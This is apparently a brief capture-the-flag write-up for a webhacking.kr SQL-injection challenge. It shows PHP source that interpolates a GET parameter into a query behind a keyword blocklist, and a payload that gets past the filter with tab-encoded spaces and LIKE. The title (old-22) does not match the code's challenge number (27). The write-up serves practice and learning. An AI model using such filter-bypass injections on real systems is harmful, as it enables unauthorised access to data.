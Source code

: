 ```yaml
---
title: ["[Webhacking.kr] old-22 (sqli - 15)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```

  

```php
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
```

` `, `=`, `(`을 사용할 수 없으므로,  
```0)||no%09like%092--%09```
